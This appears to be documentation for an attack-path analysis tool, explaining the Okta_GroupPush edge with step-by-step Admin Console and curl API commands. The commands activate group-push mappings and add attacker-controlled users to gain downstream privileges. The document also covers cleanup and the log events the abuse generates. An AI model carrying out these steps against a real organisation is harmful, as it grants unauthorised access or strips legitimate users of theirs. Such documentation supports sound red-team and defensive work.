

## General Information

The non-traversable Okta_GroupPush edges represent group push mappings on Okta applications. The collector emits these edges from the Okta application that owns the group-push mapping to the target group represented by that mapping.


```mermaid
graph LR
    app1("Okta_Application GitHub Enterprise Cloud")
    g1("Okta_Group Engineering in target app")
    app1 -. Okta_GroupPush .-> g1
```

## Abuse Info

This edge describes provisioning from an Okta application into a target group in an external application. It is not a standalone credential, but an attacker who controls the source application or its provisioning configuration can influence the destination group by creating, changing, activating, or abusing a group-push mapping.

In practice, abuse usually requires two pieces: control over the app or group-push configuration, and control over the Okta source group whose membership is pushed. If the mapping already exists, adding an attacker-controlled user to the mapped source group can cause Okta to add the linked downstream account to the destination group. If the attacker has app administration privileges, they may also link a controlled source group to a privileged downstream target group.

Using the Admin Console:

1. Authenticate as a principal that can manage the source application, such as one reached through `Okta_AppAdmin`, `Okta_ManageApp`, `Okta_OrgAdmin`, or `Okta_SuperAdmin`.
2. Open **Applications** > **Applications** and select the source application.
3. Open the app's group push or provisioning group-mapping view.
4. Identify the mapping that corresponds to the destination group from the edge, or create/link a mapping from an attacker-controlled Okta source group to a target group in the downstream application.
5. Activate the mapping if it is inactive.
6. Add the attacker-controlled Okta user to the mapped Okta source group.
7. Trigger group push where the integration supports it, or wait for the provisioning cycle.
8. Sign in to the downstream application and verify the attacker-controlled account now has the destination group, role, or permission.

Using the Okta API:

1. Set the Okta org URL, API credential, source application ID, group-push mapping ID, mapped Okta source group ID, and attacker-controlled user ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_APP_ID="0oa..."
    export GROUP_PUSH_MAPPING_ID="gpm..."
    export OKTA_SOURCE_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    ```

2. List the application's group-push mappings and identify the mapping that points to the destination group.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/group-push/mappings" \
      | jq -r '.[] | [.id, .status, .sourceGroupId, .targetGroupId, .targetGroupName] | @tsv'
    ```

3. Retrieve the specific mapping before changing membership.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/group-push/mappings/$GROUP_PUSH_MAPPING_ID" \
      | jq '{id, status, sourceGroupId, targetGroupId, targetGroupName}'
    ```

4. Activate the group-push mapping if it is inactive.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/group-push/mappings/$GROUP_PUSH_MAPPING_ID/lifecycle/activate"
    ```

5. Add the attacker-controlled user to the Okta source group that feeds the mapping.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$OKTA_SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful membership change returns `204 No Content`.

6. Verify the source group membership in Okta.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$OKTA_SOURCE_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login, .status] | @tsv'
    ```

7. Verify the downstream result using the target application's admin UI or API. Okta can show the mapping and source membership, but the final proof is that the downstream account is now a member of the destination group or role.

The same relationship can be abused destructively by removing users from the mapped source group, deactivating the mapping, or relinking the mapping so legitimate users lose downstream access.

## Cleanup after Abuse

Cleanup for `Okta_GroupPush` means restoring the mapped Okta source group and group-push mapping so Okta removes the temporary downstream group membership from the destination application.

Cleanup using Admin Console:

1. Open **Directory** > **Groups** and select the mapped Okta source group.
2. Remove the attacker-controlled user and restore any legitimate users that were removed.
3. Open **Applications** > **Applications**, select the source application, and review the group push mapping for the destination group.
4. Deactivate or delete any mapping created only for the operation.
5. Trigger push where available or wait for the provisioning cycle.
6. Verify in the downstream application that the destination group no longer contains the temporary account.

Cleanup using API:

1. Remove the attacker-controlled user from the mapped Okta source group.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$OKTA_SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Deactivate a temporary group-push mapping.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/group-push/mappings/$GROUP_PUSH_MAPPING_ID/lifecycle/deactivate"
    ```

3. Delete a temporary group-push mapping after it is no longer needed.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/group-push/mappings/$GROUP_PUSH_MAPPING_ID"
    ```

    A successful delete returns `204 No Content`.

4. Confirm the temporary source membership is gone.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$OKTA_SOURCE_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

5. Verify the downstream application removed the temporary account from the destination group. Use the downstream application's API or admin UI because Okta does not prove the target app applied the change.

## Opsec Considerations

Changing the mapped source group creates `group.user_membership.add` or `group.user_membership.remove` events. Activating, deactivating, deleting, or changing group-push mappings also creates application provisioning telemetry, and the downstream application may log group membership, account creation, role assignment, or deprovisioning events caused by Okta.

Group push is noisy when it affects many users. Relinking or activating a mapping to a privileged target group can generate a burst of downstream changes, failed provisioning attempts, or help desk tickets if legitimate users lose access.

## References

- [Okta Group Push Mappings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/GroupPushMapping/)
- [Okta Group API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta SCIM concepts](https://developer.okta.com/docs/concepts/scim/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Okta SCIM Attack Tool](https://github.com/authomize/okta_scim_attack_tool)
